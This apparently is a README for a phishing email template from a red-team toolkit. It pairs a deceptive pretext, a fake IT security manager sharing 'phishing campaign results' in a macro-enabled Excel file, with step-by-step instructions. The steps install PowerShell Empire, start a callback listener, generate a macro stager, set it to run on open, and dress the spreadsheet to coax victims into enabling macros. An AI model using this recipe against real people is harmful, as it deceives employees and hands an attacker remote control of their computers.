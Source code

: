 # Phishing Awareness Training Email 

** Objective: ** Shell

## Pretext: 
You are an IT Security Manager, or IT Admin who has reciently conducted a phishing awareness campaign against your company. You are asking users to read through the email for phishing awareness and to download and view the results of the phishing campaign. The excel document needs macros enabled to view the results

## To Change:
Create your own macros (Empire is easiest) to call back. 

## Creating a malicious Macros via Empire
1. Installing Empire
  1.a. git clone git@github.com:PowerShellEmpire/Empire.git
  1.b. ./setup/install.sh
2. Starting up a listener:
   2.a. set host <listening host:port>
   2.b. set whatever parameters you want on this, just type 'info'
   2.c. 'execute'
3. Generating the Macro
   3.a. usestager macro
   3.b. set listener <listener number>
   3.c. 'execute'
   3.d. copy the output function
4. Inserting the macro
   4.a. Open Excel > New Document > 'alt+F11' will get you to the macros
   4.b. Double-clck on "This Workbook"
   4.c. Paste in the macro function from Empire
   4.d. Change the Sub call to 'Auto_Open()'
   4.e. Add the line 'Dim str As String' to the top of the Debugging function call before the powershell call.
   4.f. Go back to the spreadsheet and add in whatever content you want. I like to add in random strings and at the top say that macros needs enabled to view the content. Helps with the pretext.

